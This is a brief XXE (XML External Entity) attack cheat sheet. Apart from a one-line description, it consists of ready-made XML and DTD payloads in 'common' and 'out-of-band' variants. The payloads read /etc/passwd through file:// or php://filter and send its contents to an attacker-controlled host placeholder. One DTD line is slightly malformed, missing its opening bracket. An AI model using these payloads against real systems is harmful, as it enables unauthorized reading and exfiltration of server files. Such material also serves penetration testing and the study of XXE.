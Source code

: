 # XXE

Insert entities into xml that request external ressources or deliver internal file contents.


## Common XEE:

xxe.xml:
```
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://<ip>:<port>xxe.dtd">
%sp;
%param1;
]>
<r>&exfil;</r>
```
xxe.dtd
```
!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://<ip>:<port>/?%data;'>">
```


## Out-of-band XXE:

Request
```
<?xml version="1.0"?>
<!DOCTYPE thp[
	<!ELEMENT thp ANY>
	<!ENTITY % dtd SYSTEM "http://<attackerip>/payload.dtd">
%dtd;]>
<thp></thp>
```
Payload:
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % all "<!ENTITY send SYSTEM 'http://<attackerip>/collect=%file'>">
%all 
```

tags: xxe